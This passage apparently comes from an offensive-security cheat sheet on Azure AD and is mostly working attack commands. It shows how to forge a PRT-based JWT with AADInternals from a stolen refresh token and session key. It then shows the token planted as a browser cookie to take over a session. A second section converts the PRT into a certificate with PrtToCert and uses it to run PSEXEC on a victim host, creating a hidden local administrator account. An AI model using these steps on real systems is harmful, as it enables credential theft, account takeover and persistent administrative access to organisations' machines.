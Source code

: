 ```powershell
# Generate a JWT
PS> Import-Module C:\Tools\AADInternals\AADInternals.psd1
PS AADInternals> $PRT_OF_USER = '...'
PS AADInternals> while($PRT_OF_USER.Length % 4) {$PRT_OF_USER += "="}
PS AADInternals> $PRT = [text.encoding]::UTF8.GetString([convert]::FromBase64String($PRT_OF_USER))
PS AADInternals> $ClearKey = "XXYYZZ..."
PS AADInternals> $SKey = [convert]::ToBase64String( [byte[]] ($ClearKey -replace '..', '0x$&,' -split ',' -ne ''))
PS AADInternals> New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey –GetNonce
eyJ0eXAiOiJKV1QiL...
```

The `<Signed JWT>` (JSON Web Token) can be used as PRT cookie in a (anonymous) browser session for https://login.microsoftonline.com/login.srf.    
Edit the Chrome cookie (F12) -> Application -> Cookies with the values:

```powershell
Name: x-ms-RefreshTokenCredential
Value: <Signed JWT>
HttpOnly: √
```

:warning: Mark the cookie with the flags `HTTPOnly` and `Secure`.


## Pass The Certificate

```ps1
Copy-Item -ToSession $jumpvm -Path C:\Tools\PrtToCertmaster.zip -Destination C:\Users\Username\Documents\username –Verbose
Expand-Archive -Path C:\Users\Username\Documents\username\PrtToCert-master.zip -DestinationPath C:\Users\Username\Documents\username\PrtToCert

# Require the PRT, TenantID, Context and DerivedKey
& 'C:\Program Files\Python39\python.exe' C:\Users\Username\Documents\username\PrtToCert\RequestCert.py --tenantId <TENANT-ID> --prt <PRT> --userName <Username>@<TENANT NAME>.onmicrosoft.com --hexCtx <HEX-CONTEXT> --hexDerivedKey <HEX-DERIVED-KEY>
# PFX saved with the name <Username>@<TENANT NAME>.onmicrosoft.com.pfx and password AzureADCert
```

Python tool that will authenticate to the remote machine, run PSEXEC and open a CMD on the victim machine

https://github.com/morRubin/AzureADJoinedMachinePTC

```ps1
Main.py [-h] --usercert USERCERT --certpass CERTPASS --remoteip REMOTEIP
Main.py --usercert "admin.pfx" --certpass password --remoteip 10.10.10.10

python Main.py --usercert C:\Users\Username\Documents\username\<USERNAME>@<TENANT NAME>.onmicrosoft.com.pfx --
certpass AzureADCert --remoteip 10.10.10.10 --command "cmd.exe /c net user username Password@123 /add /Y && net localgroup administrators username /add"
```
